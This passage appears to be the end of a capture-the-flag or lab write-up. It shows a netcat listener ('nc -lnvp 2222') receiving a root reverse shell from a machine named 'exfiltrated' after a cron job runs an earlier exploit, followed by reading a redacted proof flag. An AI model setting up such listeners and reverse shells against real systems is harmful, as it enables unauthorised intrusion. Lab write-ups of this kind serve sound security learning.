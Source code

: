 Now we wait for the crontab to run on our exploit and meanwhile start a listener on the port we gave earlier. Within a minute we get `root` shell

```
└─$ nc -lnvp 2222                                  
listening on [any] 2222 ...
connect to [IP] from (UNKNOWN) [192.168.162.163] 47224
bash: cannot set terminal process group (3685): Inappropriate ioctl for device
bash: no job control in this shell
root@exfiltrated:~# whoami
whoami
root
root@exfiltrated:~# cd /root
cd /root
root@exfiltrated:~# cat proof.txt
cat proof.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

and become `ROOT :)`
